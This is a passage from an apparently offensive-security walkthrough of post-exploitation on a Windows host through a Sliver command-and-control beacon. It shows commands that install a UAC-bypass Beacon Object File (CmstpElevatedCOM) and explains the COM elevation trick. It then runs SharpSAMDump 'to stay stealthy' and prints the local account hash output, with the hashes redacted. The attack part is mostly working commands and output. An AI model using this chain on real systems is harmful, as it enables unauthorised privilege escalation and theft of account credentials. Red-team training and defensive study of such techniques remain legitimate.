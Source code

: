 ```console
SeUndockPrivilege             Remove computer from docking station              Disabled                      
SeIncreaseWorkingSetPrivilege Increase a process working set                    Disabled                      
SeTimeZonePrivilege           Change the time zone                              Disabled
```

We see our user is part of the `Administrators` group but we are not in a high integrity process. This means that we have to bypass UAC (User Access Control) to get a shell with full Administrator privileges. There is an excellent project called [UAC-BOF-Bonanza](https://github.com/icyguider/UAC-BOF-Bonanza) that includes Beacon Object Files that can be loaded to Sliver in order to bypass UAC. After cloning the repository, we can load them into Sliver as follows (e.g. `CmstpElevatedCOM`):

```console
$ git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
$ cp UAC-BOF-Bonanza/CmstpElevatedCOM/ /home/s3rp3nt/.sliver-client/extensions/
```

The above UAC Bypass creates an elevated `ICMLuaUtil COM` object and calls its ShellExec function to execute the provided file on disk. If it is the first time using these custom extension, restart yuor Sliver server. We can now run the `CmstpElevatedCom` task from within our beacon that executes our loader.

![Sliver Privesc](../assets/images/maldev/sliver-privesc.png)

This will launch another beacon process running as Administrator. With these privileges we can try to dump all credentials from LSASS. To stay stealthy, let's use [SharpSAMDump](https://github.com/jojonas/SharpSAMDump).

```console
[server] sliver (ESSENTIAL_THEATER) > execute-assembly -i /home/s3rp3nt/Tools/Windows/SharpSAMDump.exe

[*] Tasked beacon ESSENTIAL_THEATER (c4af87ff)

[+] ESSENTIAL_THEATER completed task c4af87ff

[*] Output:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
John:1001:aad3b435b51404eeaad3b435b51404ee:<REDACTED>:::
```

We managed to obtain the hashes of all accounts on the machine, including the administrator hash.